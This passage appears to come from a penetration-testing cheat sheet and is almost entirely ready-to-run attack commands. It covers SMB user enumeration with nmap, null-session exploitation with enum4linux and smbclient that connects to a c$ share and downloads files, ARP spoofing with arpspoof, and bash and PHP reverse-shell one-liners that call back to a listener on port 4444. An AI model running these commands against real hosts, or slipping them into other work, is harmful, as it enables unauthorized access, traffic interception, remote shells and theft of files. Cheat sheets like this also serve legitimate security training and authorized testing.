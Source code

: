 enumeration with nmap:
```bash
ll /usr/share/nmap/scripts/ | grep smb-enum-
-rw-r--r-- 1 root root  4846 Jan  9  2019 smb-enum-domains.nse
-rw-r--r-- 1 root root  5931 Jan  9  2019 smb-enum-groups.nse
-rw-r--r-- 1 root root  8045 Jan  9  2019 smb-enum-processes.nse
-rw-r--r-- 1 root root 27262 Jan  9  2019 smb-enum-services.nse
-rw-r--r-- 1 root root 12057 Jan  9  2019 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Jan  9  2019 smb-enum-shares.nse
-rw-r--r-- 1 root root 12531 Jan  9  2019 smb-enum-users.nse
nmap --script=smb-enum-users 192.168.1.10
```

#### null sessions
1) Use "enum4linux -n" to make sure if "<20>" exists:
```bash
enum4linux -n 192.168.1.10
```

2) If "<20>" exists, it means Null Session could be exploited. Utilize the following command to get more details:
```bash
enum4linux 192.168.1.10
```

3) If confirmed that Null Session exists, you can remotely list all share of the target:
```bash
smbclient -L WORKGROUP -I 192.168.1.10 -N -U ""
```

4) You also can connect the remote server by applying the following command:
```bash
smbclient \\\\192.168.1.10\\c$ -N -U ""
```

5) Download those files stored on the share drive:
```bash
smb: \> get Congratulations.txt
```

### ARP spoofing
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101
```

### reverse shell
bash
```bash
bash -i >& /dev/tcp/10.0.14.22/4444 0>&1
```

php one line (bash)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.14.10/4444 0>&1'"); ?>
```
